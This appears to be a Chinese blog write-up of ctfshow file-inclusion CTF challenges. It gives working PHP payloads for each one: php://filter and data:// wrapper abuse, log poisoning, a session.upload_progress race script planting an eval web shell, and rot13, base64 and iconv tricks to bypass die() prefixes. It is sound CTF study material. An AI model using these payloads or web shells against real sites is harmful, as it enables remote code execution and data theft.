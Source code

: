 ```yaml
---
title: ctfshow文件包含
date: 2024-09-09 14:32:44
tags: 
     - 文件包含
     - ctfshow
categories: 学习笔记
---
```


## web-78

![image-20240524210517488](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405242105624.png)

有个include，我们使用filter协议

<!--more-->

```
?file=php://filter/convert.base64-encode/resource=flag.php
```

得到flag.php的base64编码，进行解码得到flag

![image-20240524210616281](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405242106454.png)



## web-79

这题过滤了php，所以我们就不能用php伪协议了，我们用data伪协议

payload

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==  
//<?php system("cat%20flag.php"); ?>
```

在查看页面源码就得到flag了

![image-20240524215512496](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405242155566.png)



## web-80-81(日志包含)

这题php和data都被过滤了，我们采用日志包含进行绕过

```
?file=/var/log/nginx/access.log&1=system('tac f*');
```

![image-20240526143441902](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405261434992.png)

得到flag

![image-20240526143459596](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405261434634.png)

------

## web-82-86(session.upload_progress)

这道题把.给过滤了，我们采用session.upload_progress来做

linux下，默认保存session的文件路径/tmp或/var/lib/php/session；Windows下session文件的路径不固定。
关于session，只要你与一个网站建立连接，网站某个文件夹下就会产生session文件，关闭浏览器或者过了一段时间，session就会失效，再次建立连接的话就会产生新的session文件。



​		我们使用脚本

```
import requests
import threading
import sys
session=requests.session()
sess='yu22x'
url1="https://88b1b883-b820-4d9d-b01d-affc6a953ea1.challenge.ctf.show/"
url2='https://88b1b883-b820-4d9d-b01d-affc6a953ea1.challenge.ctf.show/?file=/tmp/sess_'+sess
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
}
data2={
	'1':'system("cat f*");'
}
file={
	'file':'abc'
}
cookies={
	'PHPSESSID': sess
}
def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.post(url2,data=data2)
		if 'ctfshow{' in r.text:
			print(r.text)
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()
```

运行，得到flag

![image-20240526185010314](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405261850422.png)



或者使用条件竞争(没做出来)https://www.cnblogs.com/NPFS/p/13795170.html



## web-87

这道题过滤了php和data还有：和.，同时将传入的file进行了unicode解码

我们知道**当服务器端接收到经过URL编码的数据后(数据包里的被URL编码的数据也会被URL解码)，会自动进行解码，故此处file参数的值需要二次URL编码。**

简单来说，第一次服务器默认解码一次，第二次在代码端urldecode解码一次



**关于URL编码与解码**。[URL编码解码详解，看这一篇就够够的了](https://cloud.tencent.com/developer/article/2308496)

当 URL 路径或者查询参数中，带有中文或者特殊字符的时候，就需要对 URL 进行编码。URL 编码协议规定（RFC3986 协议）：URL 中只允许使用 ASCII 字符集可以显示的字符，比如英文字母、数字、和- _ . ~ ! *这 6 个特殊字符。哪些字符需要编码，分为以下三种情况：

- ASCII 表中没有对应的可显示字符，例如，汉字。
- 不安全字符，包括：`#、”、%、 <、>、[、]、{、}、|、\、^ `。
- 部分保留字符，即 `&、/、:、;、=、?、@`。

  URL中出现特殊字符，火狐浏览器会先对齐URL编码再发送，使得请求数据包中的请求的参数是经过编码后的数据。



接下来来看写入文件内容

```
<?php die('大佬别秀了');?>
这个也写进文件中，这样子的话php文件执行了这个就会停止，不会执行我们的代码，所以需要一个过滤器，只读我们的代码。 
即php://filter/read=string.rot13/resource=a.php然后content写入rot13加密的<?php system('tac f*');?>
就是<?cuc flfgrz('gnp s*');?>

```



*string.rot13过滤器 一种字符处理方式，将字符右移13位*

payload

```
GET
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%31%25%32%65%25%37%30%25%36%38%25%37%30

POST
content=<?cuc flfgrz('gnp s*');?>
```

最后访问a.php，得到flag

![image-20240618200058159](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406182000213.png)

这题也能用base64做

```
php://filter/convert.base64-encode/resource=a.php
```

```
content=11PD9waHAgc3lzdGVtKCd0YWMgZionKTs/Pg==
其中PD9waHAgc3lzdGVtKCd0YWMgZionKTs/Pg==是"<?php system('tac f*');?>"的base64编码。前面的11是为了填充"<?php die('大佬别秀了');?>"
base64 4位4位解码，其中"<?php die('大佬别秀了');?>"解码的内容其实只有phpdie，所以需要再填充两位。
```



## web-88

![image-20240618202034160](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406182020200.png)

这题过滤了php和一些字符，我们使用data伪协议来做

由于过滤了+和=，我们在编码是要注意用字符来补位

```
<?php eval($_GET[1]);?>a
```

多加个a是用来去掉base64编码后的=

最终payload：

```
?file=data://text/plain;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7ID8+&1=system('tac f*');
```



## web-116

下载视频后去hxd或者010打开，发现里面有张图片，里面有源码。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201020173740724.png)

看到源码，没有过滤flag.php，直接file=flag.php

抓包发现flag

![image-20240618202847781](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406182028834.png)

## web-117

这题唯独没有过滤`php://filter`，这里需要使用`convert.iconv.*`过滤器

```
# url
http://92caed34-03fd-4991-90dc-6e8354ba37a8.challenge.ctf.show/?file=php://filter/write=convert.iconv.UCS-2BE.UCS-2LE/resource=1.php
# POST
contents=?<hp pe@av(l_$OPTS'[mc'd)]?;>> //字符UCS-2LE->UCS-2BE的编码，字符多加一个>是防止报错，php中标签外的>不解析。

```

`convert.iconv.*`其实就是一个字符转换，`convert.iconv.<input-encoding>.<output-encoding>`。可以在linux下使用`iconv`进行字符编码转换，语法如下：

```
iconv -f UCS-2LE -t UCS-2BE [源文件名] > [输出文件名]
```

得到flag

![image-20240618203722807](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406182037877.png)
